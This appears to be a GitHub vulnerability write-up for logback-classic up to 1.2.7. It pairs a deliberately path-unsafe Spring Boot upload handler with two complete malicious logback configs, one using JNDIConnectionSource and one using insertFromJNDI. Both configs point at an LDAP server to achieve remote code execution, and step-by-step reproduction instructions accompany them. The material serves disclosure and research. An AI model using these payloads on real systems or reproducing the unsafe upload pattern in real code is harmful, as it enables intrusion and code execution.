 1. ##  Affected version

   logback-classic <=1.2.7

   ##  Environment

    SpringBoot 2.6.1 

    JDK8u111(Please note the available versions of JNDI)

   ##  Project address

   https://github.com/cn-panda/logbackRceDemo

   The project is a simple vulnerability demo environment  in springboot, The key function is **upload**:

   ```java
   public String upload(@RequestParam("file") MultipartFile file) {  
       if (file.isEmpty()) {  
           return "Upload failed, please select a file！！";  
       }  
     
       String fileName = file.getOriginalFilename();  
       String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
       System.out.println(filePath);  
       File dest = new File(filePath,fileName);  
       try {  
           file.transferTo(dest);  
           LOGGER.info("Upload succeeded!!");  
           return "Upload succeeded!!";  
       } catch (IOException e) {  
           LOGGER.error(e.toString(), e);  
       }  
       return "Upload failed!!";  
   }
   ```

   The main function of this method is to upload files.

   The configuration file of logback in the project is as follows:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/1.png?raw=true)

   The key point is the `scan` attribute, which is used by logback to periodically scan the configuration file for changes.

   If the configuration file is detected to change, it will update and load the configuration file in real time.

   In this project, I deliberately wrote a vulnerability environment with arbitrary file uploads, and then used the `scan` attribute in the loghack configuration file to cooperate with the logback vulnerability to implement RCE
   
   **Note: the upload here is the code with file upload vulnerability deliberately written by the author to propose a possible scenario. It is not the problem of logback itself. Logback only needs this vulnerability to trigger rce. If other vulnerabilities are not used, logback itself is safe**

   # Vulnerability analysis

   ## JNDIConnectionSource

   In logback, it is also similar to the Appender of JDBCAppender in log4j1.x —— that is **DBAppender**

   There is an interface called `ConnectionSource` in DBAppender.

   This interface provides a pluggable way to obtain a JDBC connection using the logback class of `java.sql.Connection`

   There are currently three implementation classes: `DriverManagerConnectionSource`, `DataSourceConnectionSource` and `JNDIConnectionSource`.

   Each of these three implementation classes can be used to achieve RCE.

   But unlike the other two implementation classes, the way `JNDIConnectionSource` implements RCE is more convenient, because it can implement RCE without relying on other component-dependent gadgets, and only rely on the mechanism provided by the application (JNDI), but ` DriverManagerConnectionSource` and `DataSourceConnectionSource` must rely on JDBC deserialization vulnerabilities to be able to implement RCE. The restrictions are relatively large, so I will not demonstrate here.

   **JNDIConnectionSource** is logback's own method, as you can see from the name, it obtains `javax.sql.DataSource` through JNDI, and then obtains `java.sql.Connection instance`

   In fact, you can find out by observing the code of the `getConnection` method in `JNDIConnectionSource.java`:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/2.png?raw=true)

   If dataSource is empty, then let `dataSource = lookupDataSource();`

   Then trigger `lookup` in **lookupDataSource()**:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/3.png?raw=true)

   #### Vulnerability recurrence

   First download the reproduced source code, and then run the main function of the `RceDemoApplication` project:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/4.png?raw=true)

   Then open the browser and type in the address bar: `http://localhost:8080`, you can visit the project homepage

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/5.png?raw=true)

   This means that your vulnerability environment has been built.

   Then create a configuration file of `logback-spring.xml` locally, the content of the file is as follows:

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
       　　　　　 <encoder>  
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
       　　　　　 </encoder>  
       　　　</appender>  
       <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
           <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
               <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
           </connectionSource>  
       </appender>  
     
       　　　<root level="DEBUG">  
       　　　　　　<appender-ref ref="STDOUT" />  
       　　　</root>  
</configuration>
```
   
   Then visit `http://localhost:8080/upload.html`, select the file and click the upload button, use BurpSuite to capture the package, you can see that the file is uploaded successfully:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/6.png?raw=true)

   After waiting ten seconds, RCE can be executed successfully

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/7.png?raw=true)

   ## insertFromJNDI

   In addition to `JNDIConnectionSource`, there is actually another configuration that can implement JNDI injection——**insertFromJNDI**

   `<insertFromJNDI>` is the configuration tag of logback, which is used to set the range of attributes. It supports obtaining attribute values through JNDI. Similarly, if you modify the content of the `<insertFromJNDI>` tag, you can also achieve JNDI injection

   When the `<insertFromJNDI>` tag is used, it means that the `begin` method in the `InsertFromJNDIAction.java` file will be called, and the `JNDIUtil.lookup` method will be used , thereby triggering the vulnerability:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/8.png?raw=true)

   ### Vulnerability recurrence

   The reproduction steps are roughly the same as in #JNDIConnectionSource, except that the payload used in the uploaded file needs to be changed, as follows:

   ```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
       　　　　　 <encoder>
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
       　　　　　 </encoder>
       　　　</appender>
       <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  
   
   　　　<root level="DEBUG">
       　　　　　　<appender-ref ref="STDOUT" />
       　　　</root>
   </configuration>
   ```
   
   Upload the configuration file:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/9.png?raw=true)

   Similarly, after waiting for 10 seconds, RCE can be triggered:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/10.png?raw=true)

   In fact, in addition to these two, the `begin` in `JMXConfiguratorAction` can also be used for malicious purposes.

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/11.png?raw=true)

   # Summarize

   In general, the triggering method of this vulnerability is still relatively difficult, unless the following conditions can be met:

   1. The configuration file of logback can be modified or overwritten
2. Able to make the modified configuration file take effect
